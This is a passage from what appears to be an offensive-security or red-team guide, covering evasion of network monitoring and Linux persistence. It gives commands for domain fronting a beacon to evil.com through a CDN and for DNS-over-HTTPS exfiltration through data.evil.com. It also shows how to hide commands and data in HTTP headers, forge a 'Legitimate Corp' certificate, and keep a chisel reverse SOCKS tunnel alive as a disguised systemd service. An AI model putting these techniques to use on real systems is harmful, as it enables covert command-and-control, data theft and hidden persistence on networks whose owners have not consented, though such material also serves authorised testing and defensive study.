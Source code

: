 ### 14.4 Advanced Evasion Techniques

#### Domain Fronting:

```bash
# Use legitimate CDN for traffic fronting
curl -H "Host: evil.com" https://legitimate-cdn.cloudfront.net/beacon

# DNS over HTTPS for covert communication
curl -H "Accept: application/dns-json" \
     "https://cloudflare-dns.com/dns-query?name=data.evil.com&type=TXT"
```

#### Steganographic Tunneling:

```python
# Hide data in HTTP headers
headers = {
    'User-Agent': 'Mozilla/5.0',
    'X-Forwarded-For': base64_encode(command),
    'Accept-Language': encrypt(data)
}
```

#### Certificate Pinning Bypass:

```bash
# Custom certificate generation
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 \
    -subj "/C=US/ST=CA/L=San Francisco/O=Legitimate Corp/CN=*.legitimate.com"
```

## 15. Platform-Specific Implementation Considerations

:::note
Adapt scripts, service definitions, and persistence mechanisms to your platform (Linux, Windows, container, or cloud). Substitute example IPs, file paths, and user names as required.
:::

### 15.1 Linux-Specific Techniques

```bash
# iptables-based port forwarding
iptables -t nat -A PREROUTING -p tcp --dport 8080 -j DNAT --to-destination 192.168.1.100:80
iptables -t nat -A POSTROUTING -j MASQUERADE

# systemd service for persistence
cat > /etc/systemd/system/tunnel.service << EOF
[Unit]
Description=Network Tunnel Service
After=network.target

[Service]
Type=simple
ExecStart=/usr/local/bin/chisel client server:8080 R:socks
Restart=always
User=nobody

[Install]
WantedBy=multi-user.target
EOF
```
